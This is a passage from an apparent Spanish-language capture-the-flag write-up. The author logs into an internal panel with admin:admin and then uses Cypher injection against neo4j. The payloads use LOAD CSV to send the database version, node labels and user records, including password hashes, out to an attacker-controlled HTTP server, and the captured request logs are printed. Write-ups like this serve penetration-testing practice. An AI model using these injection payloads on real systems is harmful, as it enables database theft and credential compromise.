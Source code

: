 Si accedemos por el puerto **3000** vemos un servicio **Gogs**, y por el **8001**, un panel de login de una web interna. Si probamos las credenciales **`admin:admin`**, conseguiremos acceder a un dashboard.

En la sección **employees** veremos un mensaje de una lista de tareas que dice "*Migrated to a new database(neo4j)*", lo que nos da la pista de que se está utilizando la base de datos **neo4j**.

Si hacemos una búsqueda por internet encontraremos que este tipo de BD suele ser sensible a [[Cypher Injection]]:

> Cypher Injection is a way for maliciously formatted input to jump out of its context, and by altering the query itself, hijack the query and perform unexpected operations on the database.
> This is a cousin to SQL injection, but affects our Cypher query language.Cypher Injection is a way for maliciously formatted input to jump out of its context, and by altering the query itself, hijack the query and perform unexpected operations on the database.

En [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j), podemos encontrar un listado con posibles inyecciones. Por ejemplo montando un servidor http con [python] y ejecutando la siguiente podemos extraer info. de las versiones:

```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.2.4:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```
```python
10.10.11.210 - - [16/Jul/2023 11:00:39] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

Vamos a tratar de enumerar los *lables* de la base de datos con la siguiente query:

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.54/?label='+label as l RETURN 0 as _0 //
```
```python
10.10.11.210 - - [16/Jul/2023 11:16:30] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:31] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:31] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:31] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:32] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:32] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:33] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:33] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:34] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:34] "GET /?label=employee HTTP/1.1" 200 -
```

Vemos una etiqueta **user**, vamos a tratar de listarla:

```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.54/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
```sql
10.10.11.210 - - [16/Jul/2023 11:18:19] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:20] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:20] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:21] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:21] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:22] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:22] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:23] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:23] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
```